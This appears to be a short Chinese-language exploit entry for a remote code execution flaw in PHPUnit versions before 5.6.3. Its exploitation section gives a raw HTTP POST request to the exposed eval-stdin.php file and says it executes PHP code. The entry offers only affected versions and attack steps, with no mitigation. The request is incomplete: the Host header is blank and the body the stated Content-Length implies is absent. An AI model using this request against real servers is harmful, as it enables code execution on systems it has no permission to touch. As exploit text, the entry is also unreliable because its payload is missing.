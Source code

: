 漏洞影響
--------

PHPUnit \< 5.6.3

漏洞利用
--------

發送以下數據包執行PHP代碼:

    POST /vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1
    Host:
    Content-Length: 21
    Accept-Encoding: gzip

![](Php-1.png "Php-1.png")